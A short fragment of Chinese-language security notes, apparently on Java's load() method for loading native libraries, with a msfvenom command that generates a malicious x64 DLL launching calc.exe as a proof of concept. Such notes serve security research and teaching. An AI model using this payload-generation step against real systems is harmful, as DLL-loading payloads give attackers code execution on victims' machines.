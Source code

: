 ![image-20211126115612941](jar_rt.assets/image-20211126115612941-16397529804461.png)





#### load()

- 加载动态链接库，如linux下的so文件，windows下的dll文件。

msf恶意dll生成（弹计算器）

> ```bash
> msfvenom -p windows/x64/exec --platform win -a x64 CMD=calc.exe EXITFUNC=thread -f dll> calc.dll
> ```

![image-20211108002026565](jar_rt.assets/image-20211108002026565.png)


